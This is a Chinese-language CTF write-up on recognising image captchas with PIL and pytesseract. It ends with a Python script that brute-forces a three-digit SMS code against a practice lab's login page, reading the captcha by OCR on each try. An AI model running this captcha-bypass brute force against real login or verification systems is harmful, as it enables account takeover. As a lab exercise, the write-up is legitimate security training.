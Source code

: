 ```yaml
---
利用tesseract识别验证码
​---

# 0x00 问题来源 
> 问题来源于于一道ctf，http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/index.php​

# 0x01 基本原理
利用python将图片化为灰度图（只有黑白两色），根据颜色将图片化为01值，然后用  pytesseract 模块识别，这个模块Windows下需要安装tesseract支持。

---
```

# 0x02 环境搭建
我使用的是Windows,

安装需要的库
pip install PIL
pip install pillow
pip install pytesseract
安装完导入一下查看是否成功

安装tesseract
下载：https://sourceforge.net/projects/tesseract-ocr-alt/files/​

下载那个 tesseract-ocr-setup-3.02.02.exe ，操作简单一些，直接选好路径安装据可以了

配置pytesseract
这个好像python2可以不配置，但是python3不配置的话好像调用不了image_to_string函数，具体配置过程如下：

找到如下文件：

`c:/Users/xxxx/AppData/Local/Programs/Python/Python37/Lib/site-packages/pytesseract/pytesseract.py`

大概在第25行左右：

`tesseract_cmd = 'tesseract'`

改为tesseract.exe的路径

`tesseract_cmd = 'D:/tesseract/Tesseract-OCR/tesseract.exe'`

# 0x03 使用
```
from PIL import Image
from pytesseract import image_to_string

#颜色大于140的置1 小于的置0
def initTable(threshold = 140):
    table = []
    for i in range(256):
        if i< threshold:
            table.append(0)
        else:
            table.append(1)
    return table

#打开图片
im = Image.open('vcode.png')
#减少图片的色彩，化为灰度图
im = im.convert('L')
#将灰度图二值化
binaryImage = im.point(initTable(),'1')
#显示处理过后的图片binaryImage.show()
#识别文本  这个config可以根据自己的需要设置 如下
"""
-psm N
    Set Tesseract to only run a subset of layout analysis and assume a certain form of image. The options for N are:

    0 = Orientation and script detection (OSD) only.
    1 = Automatic page segmentation with OSD.
    2 = Automatic page segmentation, but no OSD, or OCR.
    3 = Fully automatic page segmentation, but no OSD. (Default)
    4 = Assume a single column of text of variable sizes.
    5 = Assume a single uniform block of vertically aligned text.
    6 = Assume a single uniform block of text.
    7 = Treat the image as a single text line.
    8 = Treat the image as a single word.
    9 = Treat the image as a single word in a circle.
    10 = Treat the image as a single character.
"""
print(image_to_string(binaryImage,config='-psm 7'))
```
# 0x04 原题解题脚本
思路：手机验证码三位，用爆破，vcode.png直接识别

```
import requests
from PIL import Image
from pytesseract import image_to_string
# 图像识别
def initTable(threshold = 140):
    table = []
    for i in range(256):
        if i< threshold:
            table.append(0)
        else:
            table.append(1)
    return table
def imagevcode_to_string(url):
    im = Image.open(url)
    im = im.convert('L')
    binaryImage = im.point(initTable(),'1')
    return image_to_string(binaryImage,config='-psm 7')

s = requests.session()
url = 'http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/'
r = s.get(url)
s.post(url+"mobi_vcode.php",data={'getcode':'1','mobi':'13388886666'})
for i in range(100,1000):
    print('测试手机验证码：'+str(i))
    img = s.get(url+'vcode.php')
    with open("vcode.png",'wb') as f:
        f.write(img.content)
    j = imagevcode_to_string('vcode.png')
    r = s.post(url+'login.php',data={'username':'13388886666','mobi_code':i,'user_code':j,'Login':'submit'})
    if 'error' not in r.text:
        print('正确验证码为：'+str(i))
        print(r.text)
        break
```

验证码识别还可以用PKAV HTTP Fuzzer

https://blog.up3.top/2017/06/08/PKAV%20HTTP%20Fuzzer%201.5.6%203.21%E6%9B%B4%E6%96%B0/
